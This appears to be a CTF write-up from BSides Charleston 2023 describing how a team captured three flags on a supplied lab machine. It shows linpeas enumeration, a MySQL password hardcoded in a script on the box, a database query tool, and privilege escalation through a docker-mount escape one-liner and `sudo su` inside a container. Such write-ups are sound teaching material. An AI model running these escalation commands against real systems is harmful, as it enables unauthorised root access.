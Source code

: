 # BSIDES-CHARLESTON-2023-writeup

This is my writeup for the BSides Charleston CTF that took place on 11-4-2023. My team (l0wg4ng) and I were tasked to obtain 3 flags from a target machine which we had to SSH into. There was no initial foothold required as they supplied us with the SSH credentials. NOTE: The first flag had a hint before the CTF which mentioned it is found in a mysql database.

## Enumeration

After logging into the machine via SSH, I transferred over linpeas.sh via scp to check how I could privesc as soon as I got in.

```
scp linpeas.sh kingpwn@10.10.10.204:/tmp/linpeas.sh 
```

After running linpeas, I noticed that it picks up docker as a possible privesc point. I decide to focus on that later.

![1-linpeas-output.png](1-linpeas-output.png)

## Flag 1

I run `sudo -l` and notice that the current user can run tickets.py without a password. 

![2-sudo-l.png](2-sudo-l.png)

There is also a python script in the home directory which has this script that has a username and password. I also remember there being a mysql db that we had to access from the hints.

```
import mysql.connector

def create_ticket(title, description):
    user = 'dbtickets'
    password = 'ayuaiJ5YJ3XNn8'

    connection = mysql.connector.connect(
        host="localhost",
        user=user,
        password=password,
        database="ticketDB"
    )

    cursor = connection.cursor()

    
    flag = input("Enter A Severity Flag: High or Low: ")

    ticket = (title, description, flag)
    query = "INSERT INTO tickets (title, description, flag) VALUES (%s, %s, %s)"

    cursor.execute(query, ticket)
    connection.commit()

    print(f"Ticket Created: {title}")
    cursor.close()
    connection.close()

if __name__ == "__main__":
    title = input("Enter Ticket Title: ")
    description = input("Enter Ticket Description: ")
    create_ticket(title, description)

```

When trying to access the mysqldb with the creds above, I get an error that I can't run mysql on this machine. My teammate was able to create a python script that would be able to connect to the mysqldb and allow us to get the first flag.

The working script is below:
```
import mysql.connector

def query_database(query):
    user = 'dbtickets'
    password = 'ayuaiJ5YJ3XNn8'
    database = 'ticketDB'  # Replace with your actual database name

    # Establish a database connection
    connection = mysql.connector.connect(
        host="localhost",
        user=user,
        password=password,
        database=database
    )

    cursor = connection.cursor()

    # Execute the query
    try:
        cursor.execute(query)
        if cursor.with_rows:
            # Fetch the results and print them
            results = cursor.fetchall()
            for row in results:
                print(row)
        else:
            print("Query executed successfully")
    except mysql.connector.Error as err:
        print(f"Error: {err}")

    # Close the cursor and connection
    cursor.close()
    connection.close()

if __name__ == "__main__":
    while True:
        query = input("Enter your SQL query (or type 'exit' to quit): ")
        if query.lower() == 'exit':
            break
        query_database(query)

```

We named the script db.py and executed it, and were able to obtain the first flag.

![3-first-flag.png](3-first-flag.png)

## Flag 3

I actually found the 3rd flag before getting the 2nd one. So I am jumping ahead for now. Remembering the local enumeration I did before with linpeas, there is a potential docker escape privesc that I can run here.

I checked GTFObins and found this one:
https://gtfobins.github.io/gtfobins/docker/

I then ran this command to get the 3rd flag:
`docker run -v /:/mnt --rm -it alpine chroot /mnt sh`

![4-docker-privesc.png](4-docker-privesc.png)

I confirmed that I can read the flag for the root user.

![5-third-flag.png](5-third-flag.png)


## Flag 2

There is still a 2nd flag that I skipped, and remembering there is a docker container in this machine. I run the following commands to check and also access the container with a bash shell:
```
docker ps
docker exec -it 8269fa564b7e bash
```
![6-docker-ps.png](6-docker-ps.png)

As soon as I get into the container, I check with `sudo -l` and see another potential privesc path.

![7-sudo-l-docker.png](7-sudo-l-docker.png)

I run the following command to privesc to root and get the final flag. 
`sudo /usr/bin/su`

![8-final-flag.png](8-final-flag.png)



